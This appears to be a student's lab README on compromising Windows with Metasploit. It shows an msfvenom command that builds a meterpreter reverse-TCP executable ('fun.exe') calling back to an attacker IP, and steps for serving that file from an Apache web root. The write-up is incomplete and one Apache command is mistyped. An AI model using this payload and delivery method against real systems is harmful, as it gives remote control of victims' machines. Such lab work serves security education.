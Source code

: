 # Name: Gowtham N
# Reg no: 212222220013
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:

![image](https://github.com/user-attachments/assets/0aefccb0-15b1-4319-8950-3bde65b867b1)
Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/user-attachments/assets/afa93003-0550-437f-af4b-556a420fa1c8)
copy the fun.exe into the apache /var/www/html folder
Start apache server
sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/42a365d9-0ae1-4572-a186-cd48d34f751e)
Check the status of apache2


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
